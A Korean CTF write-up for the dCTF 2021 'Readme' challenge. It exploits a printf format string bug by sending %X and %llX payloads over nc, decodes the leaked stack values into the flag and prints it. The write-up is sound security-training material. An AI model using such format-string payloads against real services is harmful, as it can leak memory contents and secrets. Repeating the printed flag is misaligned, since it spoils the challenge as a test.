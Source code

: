 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-17-45-20.png)

첨부파일

[readme.zip](https://github.com/2jinu/CTFnWargame/raw/main/CTF/%5B2021%5D%20dCTF/Readme/file/readme.zip)


# **Write-Up**

바이너리 파일을 IDA를 통해 Pseudocode로 보면 printf(&format)으로 format string bug가 터진다.

![](images/2022-05-18-17-45-57.png)

먼저 nc를 이용하여 서버에 "%X,%X,%X,%X,%X,%X,%X,%X,%X,%X"를 입력해서 결과를 확인한다.

```sh
root@ubuntu:~# nc dctf-chall-readme.westeurope.azurecontainer.io 7481
hello, what's your name?
%X,%X,%X,%X,%X,%X,%X,%X,%X,%X
hello 47BD5F00,0,0,6,6,0,6137A2A0,66746364,5F30675F,6D30735F
```

8번째 %X에서 66746364라는 값이 나오고 stack에는 낮은 주소부터 높은 주소로 채워지기때문에 66746364는 dctf로 해석된다. 하지만 64bit바이너리이기 때문에 "%X%X%X%X%X%X%X,%llX,%llX,%llX"를 입력해서 결과를 확인한다.

```sh
root@ubuntu:~# nc dctf-chall-readme.westeurope.azurecontainer.io 7481
hello, what's your name?
%X%X%X%X%X%X%X,%llX,%llX,%llX
hello 88C845000066034EB12A0,77306E7B66746364,646133725F30675F,30625F656D30735F
```

첫번째 %llX는 마찬가지로 뒤에서부터 hex값을 ascii로 바꾸면 dctf{n0w으로 바꿀 수 있고, 마지막까지 바꿔보면 dctf{n0w_g0_r3ad_s0me_b0로 바뀐다.

아직 문자열이 잘렸기 때문에 "%X%X%X%X%X%X%X%X%X,%llX,%llX"를 입력해서 결과를 확인한다.

```sh
root@ubuntu:~# nc dctf-chall-readme.westeurope.azurecontainer.io 7481
hello, what's your name?
%X%X%X%X%X%X%X%X%X,%llX,%llX
hello CCB9A71000660745F32A0667463645F30675F,30625F656D30735F,7F5F00356B30
```

마지막 %llX에 대한 값을 보면 30 6B 35 00 5F 7F가 나왔는데 00을 NULL이므로 35까지만 바꿔보면 0k5가 된다. }로 닫아야 flag형식이 완성되는데 개발자의 실수로 보이거나, 내가 잘못 접근하고 있을지도 모르겠다.

최종적으로 모든 문자열을 합치면 dctf{n0w_g0_r3ad_s0me_b00k5가 되고 flag는 }를 붙혀서 제출하면 된다.

# **FLAG**

**dctf{n0w_g0_r3ad_s0me_b00k5}**